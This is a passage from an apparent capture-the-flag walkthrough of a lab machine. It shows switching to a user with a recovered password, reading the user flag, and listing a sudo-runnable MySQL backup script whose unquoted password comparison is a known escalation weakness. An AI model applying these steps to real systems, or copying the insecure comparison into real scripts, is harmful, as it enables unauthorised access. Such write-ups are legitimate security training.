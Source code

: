 ### Switching Users with su

With joshua's credentials, I was able to switch users and escalate privileges using the su command:

```
svc@codify:/var/www/contact$ su joshua
Password: spongebob1
joshua@codify:/var/www/contact$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

### Reading the User Flag

Finally, as the joshua user I could read the protected user flag in /home/joshua/user.txt:

```
joshua@codify:~$ cat user.txt
9c38**************************423ce
```

This complete process of privilege escalation allowed me to pivot from my initial limited svc access to full access as joshua and capture the flag.

## Privilege Escalation to Root

After becoming the joshua user, I continued searching for further privilege escalation opportunities.

### sudo Permissions

Checking sudo permissions with sudo -l revealed joshua could run this script as root:

```
joshua@codify:/opt/scripts$ sudo -l

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

### Analyzing /opt/scripts/mysql-backup.sh

```
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done
```